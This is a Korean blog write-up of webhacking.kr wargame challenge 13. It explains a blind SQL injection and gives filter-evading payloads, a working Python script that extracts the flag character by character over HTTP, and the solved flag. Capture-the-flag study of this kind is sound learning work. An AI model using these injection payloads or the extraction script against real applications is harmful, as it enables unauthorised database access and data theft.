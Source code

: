 ```yaml
---
layout: post
title: ! "[Webhacking.kr] 13"
categories: [Webhacking.kr]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - webhacking.kr
  - write-up
---
```


webhacking.kr의 최고점(1000) 문제인 13번을 풀어보도록 하겠습니다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13.png)

13번 문제는 친절하게도 HINT가 있다. `select flag from prob13password` 로, 컬럼명과 테이블명을 알려준다.
당연하게도 그대로 입력하면 `no hack`이 뜬다!

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_1.png)

1을 입력했을 경우, result : 1 과 같이 테이블처럼 보이는 것이 뜬다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_13.png)

확인 결과 출력되는 것은 result : 1, result : 0, no hack 세 개뿐인 것 같다.
왠지 결과값의 True or False로 확인하는 Blind SQL Injection의 냄새가 난다 ㅎㅎ

flag 컬럼의 row 수를 구하기 위해 아래와 같은 쿼리를 입력한다.

`?no=if((select(count(flag))from(prob13password))in(숫자),1,2)`

prob13password 테이블의 flag 컬럼의 row 수가 in 안의 숫자와 일치하면 no=1, 아니면 no=2가 된다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_count1.png)
![]({{ site.baseurl }}/assets/posts/webhackingkr/13_count2.png)

다른 숫자도 넣어봤을 때 no=2일 때만 result가 참이었으므로 flag 컬럼의 row는 2개인 것을 확인할 수 있다.
데이터가 많지 않으므로 SQL의 min,max 함수를 사용해 데이터들의 최소, 최대 길이를 구할 것이다.
SQL 공부도 할겸 서버에서 직접 테스트 해봤다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_minmax.png)

문제 풀이를 위해 기존에 쓰던 코드를 조금 변형해서 짰다.
```py
# -*- coding : UTF-8 -*-
from requests import get
import string
from time import sleep

url = "http://webhacking.kr/challenge/web/web-10/"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

ascii_list = []
for i in range(21,126):
        ascii_list.append(chr(i))

for i in range(1,50):
    parameter = "?no=if((select(max(length(flag)))from(prob13password))in("+str(i)+"),1,2)"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("<tr><td>result</td></tr><tr><td>1</td></tr>") > 0:
        length = i + 1
        print("Max data length is "+str(i))
        break

for i in range(1, length):
        for a in string.printable:
                parameter = "?no=(substr((select%0amin(flag)%0afrom%0aprob13password)," + str(i) + ",1)in(" + hex(ord(a)) + "))"
                new_url = url + parameter
                r = get(new_url, cookies=cookies)

                if r.text.find("<td>1</td>") > 0:
                        print(str(i) + " -> "+a)
                        result += a
                        break

                if i == length-1:
                        print("\npassword is "+result)
                        print("\n")
```

max 데이터의 길이를 구하고, 길이를 구할 때 사용했던 쿼리를 조금 바꿔서  substr을 추가해주었다.
`(substr((select%0amin(flag)%0afrom%0aprob13password),1,1)in(0x66))`

이번 쿼리를 짜면서 헷갈리고 어려웠던 부분은 min과 hex의 사용이었다.
분명 Auth flag는 max 데이터일텐데 왜 select min(flag)를 하며, in(hex)를 사용하는가였다.
hex값과 똑같은 문자를 넣으면 거짓이 떴다.

다른 분들의 풀이를 참고해도 설명이 다 달라서 헷갈린다..ㅎㅎ 이 부분은 더 공부를 해봐야 할 것 같다.

위 코드는 결과값은 잘 나오는데 출력이 조금 이상해서 마지막 글자만 떨어져서 나온다.. 손 좀 봐야겠다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_flag.png)

여기서 나온 `challenge13luckclear` 를 Auth 부분에 입력하면 문제가 풀린다.

![]({{ site.baseurl }}/assets/posts/webhackingkr/13_clear.png)


